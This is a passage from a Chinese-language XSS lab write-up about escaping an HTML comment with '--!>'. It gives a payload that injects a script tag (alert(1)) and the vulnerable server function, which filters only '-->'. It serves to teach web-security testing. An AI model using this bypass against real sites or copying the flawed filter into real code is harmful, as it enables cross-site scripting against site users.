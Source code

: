 



## 0x05——闭合前端注释符`--!>`

以下两个方法都可以当前端的注释符
`<!-- --> `
`<!-- --!>`

```
--!><script>alert(1)</script>
```

![image-20220115232322884](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220115232322884.png)

```
[html]
<!-- --!><script>alert(1)</script> -->

[server code]
function render (input) {
  input = input.replace(/-->/g, '😂')
  return '<!-- ' + input + ' -->'
}
```

